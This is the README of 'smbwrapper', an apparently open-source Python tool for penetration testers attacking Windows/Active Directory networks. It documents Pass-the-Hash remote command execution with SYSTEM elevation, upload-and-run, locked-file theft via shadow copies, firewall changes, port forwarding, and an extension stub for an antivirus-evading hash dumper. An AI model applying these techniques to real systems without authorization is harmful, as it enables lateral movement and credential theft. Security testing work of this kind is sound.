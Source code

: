 ## SMB Wrapper ##

**smbwrapper** is a python script which provides wrappers around `smbclient` and `winexe` with added functionality and Pass-the-Hash support.

It is intended for penetration testers and security auditors who are targeting Windows/Active Directory environments.

It relies on various external tools such as slighly modified versions of `smbclient-pth`, `winexe-pth`, `xfreerdp` and `socat`. At the moment, they will **only run in Linux x64**.

It also includes various windows executables that are meant to be run on targeted Windows systems, such as [socat for windows](https://github.com/jboecker/dcs-arduino-example/tree/master/socat), [nircmd](http://nirsoft.net/utils/nircmd.html) or *runastask* (see below)

### TL;DR ##

Basic usage:

	$ ./smb.py creds add MYDOMAIN\\Administrator 209C6174DA490CAEB422F3FA5A7AE634 "My Demo User"
	[*] Credentials added and marked as active.

	$ ./smb.py exec 10.10.10.12 whoami
	mydomain\administrator

	$ ./smb.py exec -s 10.10.10.12 whoami
	nt authority\system

	$ ./smb.py exec 10.10.10.12 cmd
	Microsoft Windows [Version 6.1.7601]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

	C:\Windows\system32>

### Help ###

	$ ./smb.py help
	smb.py v0.9 by jrm` - Run stuff remotely - Extract passwords - Pass the Hash

	smb.py -h 			     This help
	smb.py -f <file>		 Specify an alternative credential vault

		The following commands are currently implemented:

		smb.py exec [-s] <ip> [ user ] [ password | ntlm_hash ] <cmd>
		  Execute a command remotely (use "cmd" for a command prompt)

		smb.py upexec [-s] <ip> [ user ] [ password | ntlm_hash ] <localfile.exe [-arg1 [-argx]]>
		  Upload a file and run it remotely with the specified arguments

		smb.py upload [-s] <ip> [ user ] [ password | ntlm_hash ] <localfile> <remotefile>
		  Upload a file to the host

		smb.py download [-s] <ip> [ user ] [ password | ntlm_hash ] <remotefile> <localfile>
		  Download a file from the host

		smb.py scrshot [-s] <ip> [ user ] [ password | ntlm_hash ]
		  Takes a screenshot of the active session

		smb.py vsscpy [-s] <ip> [ user ] [ password | ntlm_hash ] <remotefile> <localfile>
		  Use shadow copies to download a locked file from the host

		smb.py fwrule [-s] <ip> [ user ] [ password ] <add | del> <program path | port number>
		  Creates or remove a rule in the Windows firewall

		smb.py mount <ip> [ user ] [ password ] <share> <localpath>
		  Mount a remote share locally via CIFS (Pass-the-Hash not available)

		smb.py rdp <ip> [ user ] [ password | ntlm_hash ] [ enable | disable ]
		  Open a Remote Desktop session using xfreerdp (Pass-the-Hash = restricted admin)

		smb.py portfwd [-s] <ip> [ user ] [ password | ntlm_hash ] <lport> <rhost> <rport>
		  Forward a remote port to a remote address

		smb.py revfwd [-s] <ip> [ user ] [ password | ntlm_hash ] <lport> <rhost> <rport>
		  Reverse-forward a remote address/port locally

		smb.py mbsa [-s] <ip> [ user ] [ password | ntlm_hash ]
		  Run MBSA on the remote host

		smb.py creds [ list | set | del | use ] <user> <password | ntlm_hash>
		  Manage SMB credentials

		smb.py hash <plaintext>
		  Generate a NTLM hash from a plaintex

		If the command supports it, use the '-s' option to attempt remote LocalSystem elevation.

		Instead of using username+password or username+hash on the commandline,
		you can use the smb creds command to populate the credential vault.

		Usernames must be specified using the DOMAIN\LOGIN syntax.

### Credential management ###

For each command, you can specify the credentials to use on the command line. However, if you choose not to, you can maintain a credential vault.

The `smb.py creds` command allows to view and edit a credential vault in an sqlite database. It is mostly useful when working in an Active Directory environment so that you can retain the domain administrator's credentials across multiple runs without the hassle to specify them on the command line. It also makes to tool more easier and effective to work with.

**Disclamer:** The credentials are stored in clear-text in the sqlite db. Feel free to use NTLM hashes instead of passwords, or not to use this feature at all.

### Writing a quick extension ###

The way **smbwrapper** is designed enables it to be extensible very easily. Just create your own function at the end of the script with a name starting by "smb_".

For example, if you want it to support your *super-cool custom-made antivirus-bypassing* hash dumper program, you would create such a function:

	def smb_hashdump():
		"""
		[-s] <ip> [ user ] [ password | ntlm_hash ]
		Dumps remote password hashes using my prog.
		"""

		set_creds(3, 5)
		check_creds()
		print up_and_exec(['/path/to/my/prog.exe', '--dump'])


`set_creds()` takes two arguments: the minimum length of `sys.argv` when the credentials are read from the sqlite db or from the command-line. 

`check_creds()` is optional but will prevent running further commands if the credentials don't work.

That's all you need to do.

### Tools developed for the occasion ###

`runastask.exe` allows to run a GUI program from a non-console session by creating a one-time scheduled task.

It is useful for commands that need access to the user's desktop, such as `smb.py scrshot`. It takes the username to run the task with as an argument. If no matching user desktop is found, it does nothing.